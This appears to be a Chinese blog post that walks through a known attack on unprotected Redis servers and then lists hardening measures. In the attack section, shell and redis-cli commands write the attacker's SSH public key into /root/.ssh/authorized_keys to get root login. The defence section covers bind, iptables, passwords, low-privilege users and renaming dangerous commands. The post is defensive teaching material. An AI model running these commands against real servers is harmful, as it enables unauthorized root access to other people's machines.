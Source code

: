 ```yaml
---
title: "Redis的一个简单漏洞攻击与防范"
date: 2019-11-16T12:40:16+08:00
draft: false
tags: ["Redis", "安全"]
categories: ["中间件"]
summary: 介绍Redis的一个简单的漏洞攻击流程以及对应的防范方法。
---
```


> Redis是目前使用最为广泛的缓存中间件，使用起来虽然方便、简洁但如果不加一些安全限制的使用，便会导致一些问题。之前我的一位朋友，因为在自己的云服务器上自行部署了Redis用来学习，不久后他的服务器便被人搞去挖矿了...本文讲述Redis简单的漏洞攻击流程以及对应的防范方法。


## 简单的攻击流程
- 如果本地没有配置过ssh，先生成公钥和私钥

  ```shell
    ssh-keygen -t rsa
  ```

- 将公钥写入一个txt文件

  ```shell
  (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > test.txt
  ```

- 连接Redis并把公钥文件写入。

  ```shell
  cat test.txt | redis-cli -h {server.ip} -x set attack_key
  ```

- 登入未受保护的Redis，进行如下命令操作。通过config命令修改了持久化目录及持久化文件名，使持久化的DB文件刚好为root用户SSK key存放的文件，然后save将公钥追加到authorizew_keys文件的末尾，也就上传了公钥。之后便可以使用SSH以root用户登录目标服务器。

  ```shell
  redis-cli -h {server.ip}
  # 下面都是Redis Client的交互命令
  config set dir /root/.ssh/
  config set dbfilename "authorized_keys"
  save
  ```
- 拿到root用户，之后自然就是为所欲为了～

## 线上Redis服务安全加固

> Redis在默认情况下会存在未授权访问漏洞，如果Redis的运行用户为root，黑客可以向root账号导入SSH公钥，从而直接通过SSH入侵服务器。

### 1.限制访问源只能为本地或指定IP

在redis.conf文件中写入一行记录：`bind 127.0.0.1 `，然后重启Redis生效。也存在例外情况，如果Redis以root用户运行，攻击者借助已有的web shell，可以利用该Redis来反弹shell实现提权。？

### 2.设置防火墙策略

通过iptables，仅允许指定的ip来访问Redis服务

```
iptables -A INPUT -s x.x.x.x -p tcp --dport 6379 -j ACCEPT
```

### 3.设置访问密码

在redis.conf中写入`requirepass {your_password}`，设置一个安全度高的密码。

### 4.使用低权限用户运行Redis

使用低权限用户运行Redis，并禁用该账号的远程登录，使用新用户并重启Redis生效。

```
useradd -M -s /sbin/nologin {username}
```

### 5.屏蔽重要指令

可以将一些重要命令设置为空，即禁用，也可以重命名成更复杂的名字。修改完成后需要重启Redis生效。

```
rename-command config ""
rename-command flushall ""
rename-command flushdb ""
rename-command shutdown shutdown_wxj
```

在Redis 3.0.2版本以下存在EVAL沙箱逃逸漏洞，攻击者可以通过该漏洞执行任意Lua代码，可以通过rename config命令和在redis.conf中限制访问源来规避风险。